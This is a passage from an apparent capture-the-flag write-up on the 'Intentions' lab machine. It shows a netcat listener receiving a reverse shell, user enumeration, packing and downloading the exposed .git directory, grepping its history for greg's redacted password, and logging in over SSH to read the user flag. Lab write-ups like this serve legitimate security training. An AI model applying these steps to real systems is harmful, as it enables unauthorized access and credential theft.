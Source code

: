 ```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.112] from (UNKNOWN) [10.129.229.27] 36764

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Transformed it into a pseudo interactive TTY and found three more users.

```bash
www-data@intentions:~/html/intentions/public$ ls -l /home
drwxr-x--- 4 greg   greg   4096 Jun 19  2023 greg
drwxr-x--- 4 legal  legal  4096 Jun 19  2023 legal
drwxr-x--- 4 steven steven 4096 Jun 19  2023 steven
```

# Lateral Movement

I remembered from Feroxbuster’s output that there is a .git directory located in the web root. Compressed the .git directory and placed it in the web root to subsequently download it.

```bash
www-data@intentions:~/html/intentions/public$ find / -name .git 2>/dev/null
/var/www/html/intentions/.git

tar -zcvf /tmp/git.tar.gz .git/
mv /tmp/git.tar.gz /var/www/html/intentions/public/
```

The file was huge (over 50 MB) so don’t scream out with the output. **Inspecting logs** led us to discover greg’s clear-text password.

```
wget http://10.129.229.27/git.tar.gz; tar -zxvf git.tar.gz; cd .git; git log -c > output

cat output | grep -i pass
['email' => 'greg@intentions.htb', 'password' => '<REDACTED>']
```

With his password we can connect over SSH and read the user flag. 

```
ssh greg@10.129.229.27

$ bash
greg@intentions:~$ whoami
greg

greg@intentions:~$ id
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)

greg@intentions:~$ cat user.txt 
0189a053469f7973****************
```
